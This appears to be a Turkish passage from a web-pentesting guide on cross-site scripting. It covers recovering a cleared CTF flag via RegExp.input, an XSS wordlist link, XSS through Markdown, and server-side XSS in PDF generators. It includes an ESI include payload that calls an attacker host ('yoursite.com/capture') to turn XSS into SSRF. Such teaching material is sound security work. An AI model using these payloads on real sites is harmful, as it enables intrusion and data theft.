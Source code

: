 [**bu yazıdan**](https://blog.arkark.dev/2022/11/18/seccon-en/#web-piyosay) öğrenilebilir ki, bazı değerler JS'den kaybolsa bile, farklı nesnelerdeki JS özniteliklerinde hala bulunabilir. Örneğin, bir REGEX'in girişi, regex'in giriş değerinin kaldırılmasından sonra hala bulunabilir:
```javascript
// Do regex with flag
flag = "CTF{FLAG}"
re = /./g
re.test(flag)

// Remove flag value, nobody will be able to get it, right?
flag = ""

// Access previous regex input
console.log(RegExp.input)
console.log(RegExp.rightContext)
console.log(
document.all["0"]["ownerDocument"]["defaultView"]["RegExp"]["rightContext"]
)
```
### Brute-Force List

{{#ref}}
https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/xss.txt
{{#endref}}

## XSS Diğer Güvenlik Açıklarını Kötüye Kullanma

### Markdown'da XSS

Render edilecek Markdown kodu enjekte edebilir misiniz? Belki XSS elde edebilirsiniz! Kontrol edin:

{{#ref}}
xss-in-markdown.md
{{#endref}}

### XSS'den SSRF'ye

**Önbellek kullanan bir sitede XSS elde ettiniz mi?** Bu yük ile Edge Side Include Injection aracılığıyla **bunu SSRF'ye yükseltmeyi** deneyin:
```python
<esi:include src="http://yoursite.com/capture" />
```
Kullanarak çerez kısıtlamalarını, XSS filtrelerini ve daha fazlasını aşın!\
Bu teknik hakkında daha fazla bilgi burada: [**XSLT**](../xslt-server-side-injection-extensible-stylesheet-language-transformations.md).

### Dinamik oluşturulan PDF'de XSS

Eğer bir web sayfası kullanıcı kontrolündeki girdileri kullanarak bir PDF oluşturuyorsa, PDF'yi oluşturan **botu kandırmayı** deneyebilirsiniz ve **rastgele JS kodu çalıştırmasını** sağlayabilirsiniz.\
Yani, eğer **PDF oluşturucu bot** bazı **HTML** **etiketleri** bulursa, bunları **yorumlayacak** ve bu davranışı **istismar** ederek bir **Sunucu XSS** oluşturabilirsiniz.
